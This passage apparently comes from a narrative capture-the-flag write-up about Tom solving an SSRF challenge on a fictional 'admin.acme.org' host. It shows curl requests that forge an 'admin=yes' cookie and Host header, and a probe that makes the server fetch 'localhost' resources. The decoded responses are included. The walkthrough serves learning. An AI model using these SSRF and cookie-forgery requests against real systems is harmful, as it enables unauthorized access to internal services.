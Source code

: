 ```
▶ curl -s http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -H'Content-Type: application/json' -d'{"domain": "212.tomnomnom.com"}'
{"next":"\/read.php?id=2"}
▶ curl -s -H'Host: admin.acme.org' -H'Cookie: admin=yes' http://104.236.20.43/read.php?id=2
{"data":"OikK"}
```

Some wild data appears! It looked base64 encoded, so with a bit some help from `jq` and his faithful
companion (bash) he decoded it:

```
▶ curl -s -H'Host: admin.acme.org' -H'Cookie: admin=yes' http://104.236.20.43/read.php?id=2 | jq -r '.data' | base64 --decode
:)
```

Superb. It looks like today's episode is sponsored by the letters S, S, R, and F.

He added some logging to his server to see if there was a user agent, or some other juicy info
that came with the request hitting his server, but there was nothing. "Ah well", he thought,
"it was worth a try".

He glanced at the clock: 15:17. It had been only just over half an hour since he began, and it
was time to do some actual work, but he felt like he'd made real progress. This was going to be *easy*.


## Chapter 1.5

That evening, after the kids were tucked up in bed, Tom found himself with an hour or so to spare.
He slipped into his garage where his computer sat waiting for him to pound his fingers against the
keys with reckless abandon.

He modified his page sat at `212.tomnomnom.com` and made some more requests. Was it a Phantom JS instance
visiting the page? He added some JavaScript to the page to test the theory but came up empty handed.
More ideas came and went - was is an old school SSI injection? No. How about redirecting to a different
page? No luck there either. It was time to try something new:

```
▶ curl -s http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -H'Content-Type: application/json' -d'{"domain": "localhost/212.tomnomnom.com"}'
{"next":"\/read.php?id=35"}
▶ curl -s -H'Host: admin.acme.org' -H'Cookie: admin=yes' http://104.236.20.43/read.php?id=35 | jq -r '.data' | base64 --decode
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /212.tomnomnom.com was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at localhost Port 80</address>
</body></html>
```
